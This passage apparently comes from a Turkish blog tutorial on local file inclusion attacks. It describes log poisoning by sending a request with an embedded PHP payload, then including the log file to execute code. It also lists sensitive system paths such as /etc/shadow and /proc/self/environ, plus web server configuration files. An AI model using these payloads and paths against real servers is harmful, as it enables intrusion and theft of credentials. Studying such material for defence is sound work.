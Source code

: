<br>
<img src="https://1.bp.blogspot.com/-L59bQA56ge8/XluqHVCH1BI/AAAAAAAAAVY/6_JhZPEesVwe2_v6L0wAcNOrTvsVzkVIACNcBGAsYHQ/s1600/LF%25C4%25B013.jpg">
<br>
<img src="https://1.bp.blogspot.com/-6I0hf0PfFAg/XluqHlCpDEI/AAAAAAAAAVc/SQ0lBV8XT7YjypjFdPAjDNph2xIJZNBhwCNcBGAsYHQ/s1600/LF%25C4%25B014.jpg">
<br>
<img src="https://1.bp.blogspot.com/-6j7DDqHRJpk/XluqHr76EuI/AAAAAAAAAVg/ptHu7RkJJw8r0WQUA7O3OYakKf0Sx5i5gCNcBGAsYHQ/s1600/LF%25C4%25B015.jpg">
<br><br>
Yukarıda görüldüğü üzere başarılı şekilde bağlantımızı aldık...

Diyelim ki **/proc/self/environ** erişimimiz yok o zaman ne yapacağız? Bunuda bir hedef üzerinden ayrı bir konu olarak işlemeyi düşünüyorum.Önümüzdeki günlerde güzel bir anlatım şeklinde yazacağım.
<br><br>



<h3 style="color:yellow;">Log Injection Dalgası</h3>
<br>
Şimdi bir web servera istek yolladığımızı düşünelim.İsteğimiz şöyle olsun : 

**site.com/ <?php phpinfo(); ?>**


Bu isteği yolladığımızda böyle bir sayfa olmadığı için log dosyasında bir alt satıra bu isteğimizin detayları yazılacaktır.Bu muhabbetlerden ötürü bu log dosyalarına kod inject edip url üzerinden log dosyasını çağırarak kod çalıştırabiliriz.

Bizim için önenmli olan  log dosyalarının yollarını şöyle yazabiliriz :


Buradan da aşağıdaki dosyalara ulaşabilirsiniz.
<pre>
/etc/passwd
/etc/master.passwd
/etc/shadow
/var/db/shadow/hash
/etc/group
/etc/hosts
/etc/motd
/etc/issue
/etc/release
/etc/redhat-release
/etc/crontab
/etc/inittab
/proc/version
/proc/cmdline
/proc/self/environ
/proc/self/fd/0
/proc/self/fd/1
/proc/self/fd/2
/proc/self/fd/255
/etc/httpd.conf
/etc/apache2.conf
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/httpd.conf
/etc/apache2/conf/httpd.conf
/etc/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/httpd.conf
/etc/apache2/sites-enabled/000-default
/etc/apache2/sites-available/default
/etc/nginx.conf
/etc/nginx/nginx.conf
/etc/nginx/sites-available/default
/etc/nginx/sites-enabled/default